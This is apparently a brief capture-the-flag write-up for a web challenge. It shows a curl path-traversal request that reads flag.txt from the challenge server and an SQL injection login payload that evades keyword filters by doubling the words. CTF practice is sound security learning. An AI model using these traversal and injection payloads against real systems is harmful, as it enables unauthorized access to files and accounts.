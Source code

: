 tfw the sql injection bypass isn't even necessary cuz the admin check is broken

`curl http://ctf.tcp1p.com:45679/viewer.php?image=...//...//...//...//...//flag.txt`

FWIW, the SQL injection to login as admin is the following:
```none
user: \
pwd: oorr/**/trtrueue#
```
